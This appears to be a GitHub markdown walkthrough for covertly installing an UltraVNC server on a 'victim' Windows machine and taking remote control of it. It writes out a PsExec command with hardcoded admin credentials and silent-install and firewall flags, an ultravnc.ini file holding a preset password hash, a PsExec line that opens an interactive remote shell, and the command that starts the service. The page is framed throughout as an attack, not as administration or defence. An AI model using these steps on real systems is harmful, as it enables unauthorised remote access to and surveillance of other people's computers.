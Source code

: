 # VNC (UltraVNC) Remote Desktop Connectin Server/Client

UltraVNC is an open-source remote-administration/remote-desktop-software utility. The client supports Microsoft Windows and Linux but the server only supports Windows. It uses the VNC protocol to control/access another computer remotely over a network connection.

![UltraVNC](assets/uvnc.jpg "Open source UltraVNC remote desktop client/server")

# Install VNC Server to Victim via Administrative Shares

You can remotely view or control the victim computer using the UltraVNC tool. For this, follow the steps below.

## Step 1: Download UltraVNC setup

Copy current version of ultravnc from the website to your computer as **"c:\\uvncsetup.exe"**.

## Step 2: Start installation 

To start silent installation on victim computer run **"uvncsetup.exe"** as remotely using **PsExec.exe** below. The command copy the specified executable (uvncsetup.exe) to the remote system for execution:

> psexec \\\victim -u admin -p admin0 -h -i -c C:\uvncsetup.exe /SP- /VERYSILENT /SUPPRESSMSGBOXES /NOCANCEL /NORESTART /CLOSEAPPLICATIONS /FORCECLOSEAPPLICATIONS /LOGCLOSEAPPLICATIONS /RESTARTAPPLICATIONS /NOICONS /FIREWALL /NOVIEW /COMPONENTS="ultravnc_server" /TASKS="installservice,stopservice" /DIR="%programfiles%\uvnc"

The inno setup parameters above allow the installation to complete silently. The installation files will be saved in the **"%program files%\uvnc"** directory on victim computer.

## Step 3: Define new password 

Create the **ultravnc.ini** file with the password defined in the **"%programfiles%\uvnc"** of the victim computer. 
UltraVNC password is "**admin0**" defined in **ultravnc.ini**. The ini file content is below:

` [ultravnc]`
` passwd=56B6ACA18D1BA76008`
` passwd2=56B6ACA18D1BA76008`

Copy the file to **"%programfiles%\uvnc"** folder on victim computer.

## Step 4: Restart the service

Start the service for the password to take effect. To restart the service open an interactive remote shell to victim computer below:

> psexec \\victim -u admin -p admin0 -h -i cmd.exe

And run below command over remote shell:

> net start uvnc_service

## Step 5: Restart the service

Run UltraVNC viewer and connect victim computer.

![UltraVNC Viewer](assets/uvnc_viewer.png "UltraVNC Viewer")